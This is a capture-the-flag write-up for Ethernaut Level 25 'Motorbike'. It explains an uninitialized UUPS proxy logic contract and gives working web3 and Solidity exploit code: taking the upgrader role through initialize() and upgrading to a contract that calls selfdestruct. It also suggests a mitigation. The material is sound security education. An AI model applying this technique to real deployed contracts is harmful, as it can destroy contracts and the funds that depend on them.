 ```yaml
---
title: Level 25 - Motorbike
slug: level-25
published: 06-09-2023
lastEdited:
imgSrc: /images/ethernaut/ethernaut25.svg
---
```


## Objectives

1. Somehow `selfdestruct` the `Engine` contract.

## Vulnerabilities

1. Uninitialized initializable contracts

Contract can be `Initializable` which is a way to implement core logic that a constructor would do. This functionality
can be called only once. Having an `initialize` function in a contract that has not yet been called can present a critical vulnerability.

## Exploit

Contract `Motorbike` is a proxy. It executes logic located inside a _logic contract_ using `delegatecall`. This 
is a very common pattern but comes with it's share of security concerns. In this case, the _logic contract_ is 
the `Engine` contract.

1. Let's find the address of the deployed `Engine` contract. It is stored at slot `0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc`
of `Motorbike`. Let's use the web3 library in the console.

```javascript
const addr = contract.address;
const slotDec = BigInt('0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc').toString();
const logicAddr = await web3.eth.getStorageAt(addr, slotDec);
```

2. Remove the first 12 bytes of zeroes leading `logicAddr` and we now have the contract address of `Engine`.

3. Let's write and compile a small `IEngine` `interface` on Remix. Using the _At adrress_ field, paste the value 
of `logicAddr`. This enables us to easily interact with it.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity <0.7.0;

interface IEngine {
    function upgrader() external view returns (address) ;
    function initialize() external;
    function upgradeToAndCall(address newImplementation, bytes memory data) external payable;
}
```

4. Call `initialize()` from `IEngine`. We can call this function because it is actually not initialized. In `Motorbike`'s
constructor, a `delegatecall` called `initialized` which executed the logic on the storage of `Motorbike`. Calling this
function now makes us the `upgrader` of `Engine.

5. Let's now write a deploy a hack contract like the following:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity <0.7.0;

contract EngineHack {
    function boom() external {
        selfdestruct(address(0));
    }
}
```
6. The last step is to call `upgradeToAndCall` with our _hack contract_ address and the function signature of `boom()`. 
We can find this signature using web3 in the console like this:

```javascript
const data = web3.eth.abi.encodeFunctionSignature("boom()");
```

Once `upgradeToAndCall` is called with the correct arguments, the Engine contract should have `selfdestruct`.


## Suggested mitigation

- Always verify that an *initializable* contract has actually been initialized.

## Further reading

- A blog post on UUPS vulnerability by OpenZeppelin <ExternalLink href={"https://forum.openzeppelin.com/t/uupsupgradeable-vulnerability-post-mortem/15680"} />

- transparent vs UUPS proxies by OpenZeppelin <ExternalLink href={"https://docs.openzeppelin.com/contracts/4.x/api/proxy#transparent-vs-uups"} />
